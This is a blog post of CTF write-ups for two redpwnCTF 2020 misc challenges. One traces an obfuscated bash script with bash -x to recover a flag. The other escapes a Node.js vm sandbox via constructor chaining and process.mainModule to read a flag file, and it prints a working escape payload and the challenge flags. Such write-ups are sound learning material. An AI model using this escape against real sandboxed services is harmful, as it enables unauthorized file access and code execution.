 ```yaml
---
title: "redpwnCTF 2020 Misc"
date: 2020-06-29T14:16:00+00:00
weight: 9997
# aliases: ["/first"]
tags: ["writeup", "misc", "redpwnctf"]
author: "Me"
# author: ["Me", "You"] # multiple authors
showToc: true
TocOpen: true
draft: false
hidemeta: false
comments: false
description: "Writeups on misc challenges for redpwnCTF 2020"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
---
```


## uglybash
**Category:** Misc

**Points:** 359

**Description:**
> This bash script evaluates to echo dont just run it, dummy # flag{...} where the flag is in the comments.
>
> The comment won't be visible if you just execute the script. How can you mess with bash to get the value right before it executes?
>
> Enjoy the intro misc chal.
>
> **Author:** arinerron
>
> **Given:** cmd.sh

### Writeup
When looking at the file, we see a bunch of gibberish bash. I did some research
and found a way to "debug" a script in bash.

The command is simple:
```
bash -x <program>
```

After running this, we see all commands ran in bash. We can do some parsing
through this debug output and retrieve:
```
+++ printf %s e
+++ printf %s c
+++ printf %s h
+++ printf %s o
+++ printf %s ' '
+++ printf %s d
+++ printf %s o
+++ printf %s n
+++ printf %s t
+++ printf %s ' '
+++ printf %s j
+++ printf %s u
+++ printf %s s
+++ printf %s t
+++ printf %s ' '
+++ printf %s r
+++ printf %s u
+++ printf %s n
+++ printf %s ' '
+++ printf %s i
+++ printf %s t
+++ printf %s ,
+++ printf %s ' '
+++ printf %s d
+++ printf %s u
+++ printf %s m
+++ printf %s m
+++ printf %s y
+++ printf %s ' '
+++ printf %s #
+++ printf %s ' '
+++ printf %s f
+++ printf %s l
+++ printf %s a
+++ printf %s g
+++ printf %s {
+++ printf %s u
+++ printf %s s
+++ printf %s 3
+++ printf %s _
+++ printf %s z
+++ printf %s s
+++ printf %s h
+++ printf %s ,
+++ printf %s _
+++ printf %s d
+++ printf %s u
+++ printf %s m
+++ printf %s m
+++ printf %s y
+++ printf %s }
```

Evaluating to:
```
dont just run it, dummy # flag{us3_zsh,_dummy}
```

### Flag
`flag{us3_zsh,_dummy}`

---

## CaasiNO
**Category:** Misc

**Points:** 402

**Description:**
> Who needs regex for sanitization when we have VMs?!?!
>
> The flag is at /ctf/flag.txt0
>
> `nc 2020.redpwnc.tf 31273`
>
> **Author:** asphyxia
>
> **Given:** calculator.js

### Writeup
This one isn't as easy for me to explain because I don't understand FULLY how
I am able to get this flag. From my understanding, we are in a JavaScript VM,
which allows us to run some simple JavaScript. I don't know all that much JavaScript,
but I was able to do some research to find out that this vm is escapable.

I started out by seeing:
```
> this.constructor.constructor()
function anonymous(
) {

}
```

This gave me a little inspiration to try to find the flag. I messed around with
this for a while to try to get further and further. I then was able to return this
"process" object, which I was sure had many resources. I was right.
```
> this.constructor.constructor("return this")().process
[object process]
```

I fumbled around with more code and functions until I came across this beauty:
```
> new Function("return (this.constructor.constructor('return (this.process.mainModule.constructor._load)')())")()("fs").readFileSync("ctf/flag.txt")
flag{vm_1snt_s4f3_4ft3r_41l_29ka5sqD}
```

### Flag
`flag{vm_1snt_s4f3_4ft3r_41l_29ka5sqD}`

### Resources
[readFileSync](https://www.geeksforgeeks.org/node-js-fs-readfilesync-method/?ref=leftbar-rightbar)

[Main idea](https://github.com/gf3/sandbox/issues/50)

---


